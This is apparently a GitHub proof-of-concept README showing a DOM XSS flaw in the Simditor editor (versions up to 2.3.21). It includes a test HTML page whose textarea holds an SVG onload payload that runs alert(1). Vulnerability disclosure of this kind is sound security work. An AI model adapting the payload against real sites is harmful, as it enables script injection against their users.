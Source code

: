 # simditor
https://github.com/mycolorway/simditor
DOM XSS


Download the Simditor source code(<=2.3.21).
--
We just need this three js.
![image](https://github.com/hkglue/simditor_demo/blob/master/images/js.jpg)
--


Edit a HTML FILE
--
```
<html>
<title>test</title>
<body>
<script type="text/javascript" src="./jquery.min.js"></script>
<script type="text/javascript" src="./module.js"></script>
<script type="text/javascript" src="./hotkeys.js"></script>
<script type="text/javascript" src="./simditor.js"></script>

<textarea id="editor"><svg><svg/onload=alert(1)></textarea>
<script>var editor = new Simditor({textarea: $('#editor')});</script>

</body>
</html>
```

Open the HTML in any browser.
--
*This is in my chrome，THE XSS PAYLOAD IS EXECUTE !
![image](https://github.com/hkglue/simditor_demo/blob/master/images/example.jpg)
--
